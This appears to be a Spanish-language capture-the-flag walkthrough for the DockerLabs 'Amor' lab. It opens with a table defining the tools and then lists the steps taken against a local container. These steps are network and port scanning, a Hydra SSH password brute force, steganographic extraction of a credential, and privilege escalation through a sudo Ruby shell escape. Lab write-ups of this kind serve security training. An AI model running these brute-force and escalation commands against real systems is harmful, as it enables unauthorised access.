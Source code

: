 ## DockerLabs - Reto AMOR

1. Realizar una investigación individual de cada una de las herramientas empleadas. Sintetice el resultado mediante un cuadro que explique su definición, funcionalidad y casos de uso.
## RTA

Este laboratorio forma parte de la plataforma DockerLabs y corresponde a un reto de dificultad Fácil. Tiene como objetivo introducir herramientas básicas de pentesting sobre entornos Docker usando técnicas de escaneo, fuerza bruta y esteganografía.

| **HERRAMIENTA** | **DEFINICION** | **FUNCION** | **USOS** |
| :--- | :--- | :--- | :--- |
| **Docker** | Un sistema de virtualización a nivel de sistema operativo que encapsula aplicaciones y sus dependencias en "contenedores" portátiles y autosuficientes. 📦 | Permite la creación y gestión de ambientes controlados y replicables, aislando procesos para análisis de malware o pruebas de concepto sin riesgo para el sistema anfitrión. | Despliegue de *honeypots*, análisis dinámico de malware (*sandboxing*), y entrenamiento en laboratorios de ciberdefensa. |
| **Nmap** | Una utilidad de código abierto para la exploración de redes y la auditoría de seguridad, considerada el estándar de facto en la industria. 🗺️ | Realiza un mapeo de la superficie de ataque de una red, enumerando hosts, puertos abiertos y los servicios que se ejecutan en ellos, incluyendo sus versiones. | Fase de reconocimiento en una prueba de penetración, validación de políticas de firewall y gestión de vulnerabilidades a nivel de red. |
| **Netdiscover** | Un escáner de reconocimiento activo/pasivo que opera principalmente mediante el protocolo de resolución de direcciones (ARP) en redes locales. 🕵️ | Construye un mapa de los dispositivos presentes en un segmento de red (LAN/WLAN), identificando sus direcciones IP y MAC para obtener conciencia situacional. | Detección de dispositivos no autorizados en una red clasificada, inventario rápido de activos en una evaluación de seguridad interna. |
| **Hydra** | Un cracker de credenciales de red en paralelo, diseñado para ser rápido y flexible al auditar la robustez de las autenticaciones. 🔓 | Automatiza los ataques de diccionario y de fuerza bruta contra una amplia gama de protocolos de red para encontrar contraseñas débiles. | Poner a prueba la efectividad de las políticas de contraseñas de la organización y la capacidad de los sistemas para bloquear intentos de acceso no autorizados. |
| **SCP** | Un protocolo de transferencia de archivos que opera sobre un túnel SSH, garantizando la **confidencialidad** e **integridad** de los datos en tránsito. 🔐 | Facilita la copia cifrada de ficheros entre un host local y uno remoto, o entre dos hosts remotos, de forma segura a través de la línea de comandos. | Exfiltración segura de evidencia digital durante una investigación forense, despliegue de herramientas en sistemas remotos comprometidos. |
| **Steghide** | Una utilidad de línea de comandos que implementa técnicas esteganográficas para incrustar información secreta dentro de archivos de imagen y audio. 🖼️ | Inserta un *payload* (carga útil) de datos dentro de un archivo portador (*carrier file*), modificando su estructura de forma imperceptible para el ojo humano. | Análisis esteganográfico para detectar canales de comunicación encubiertos y la exfiltración de datos no autorizada por parte de amenazas internas o externas. |
| **File** | Un comando estándar en sistemas UNIX/Linux que determina la naturaleza de un archivo examinando sus "números mágicos" y no su extensión. 🔍 | Inspecciona los primeros bytes de un archivo para identificar su tipo real, eludiendo intentos de ofuscación mediante el cambio de nombre. | Identificación de malware que se disfraza con extensiones falsas (ej. un `.exe` renombrado a `.pdf`) y triage inicial de evidencia en análisis forense. |

🛠 Prerrequisitos
Sistema base: Kali Linux



Docker instalado:

sudo apt install docker.io

2. 🚚 Despliegue del Laboratorio
Transferir los archivos del reto:

scp -r amor kali@192.168.1.12:/home/kali/Documents/

Descomprimir recursos (si aplica):

unzip amor.zip
Otorgar permisos y ejecutar:

chmod +x auto_deploy.sh
./auto_deploy.sh amor.tar
🔍 Reconocimiento
Obtener interfaz:

ip add
Descubrimiento de red:

sudo netdiscover -i docker0 -r 172.17.0.0/24
Escaneo de puertos:


sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2
🌐 Enumeración Web
Accedemos al puerto 80 pero no hay información directa. Se lanza fuzzing:


gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
🔐 Ataque por Fuerza Bruta
Usuarios encontrados en el HTML del sitio: carlota y juan.

Ataque SSH usando Hydra:

bash
Copier
Modifier
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
Accedemos vía SSH:

ssh carlota@172.17.0.2
🖼 Extracción de Evidencia
Navegamos al directorio de imágenes:


cd /carlota/Desktop/fotos/vacaciones
Transferimos la imagen:


scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor
Inspeccionamos el tipo de archivo:

file imagen.jpg
🕵‍♀ Esteganografía
Extraemos información oculta:


steghide extract -sf imagen.jpg
Decodificamos el contenido del archivo secreto:

echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo

🧑‍💻 Escalamiento de Privilegios

Accedemos como otro usuario:


su oscar
Comprobamos acceso con sudo:


sudo -l
Acceso a bash mediante Ruby:


sudo /usr/bin/ruby -e 'exec "/bin/bash"'
Verificamos identidad:

whoami



🧾 Cuadro de Herramientas Utilizadas
Se puede consultar el siguiente archivo Excel para la definición, funcionalidad y casos de uso de cada herramienta empleada: Resumen_Herramientas_DockerLabs.xlsx.



🧰 Comandos y Variantes
(Se sugiere agregar un archivo complementario comandos.md con descripciones detalladas de cada comando, sus parámetros y alternativas.)

🔁 Diagrama de Flujo
![DIAGRAMA DE FLUJO](Imagenes/ACCC.png)


📌 Créditos
Laboratorio original: dockerlabs.es 
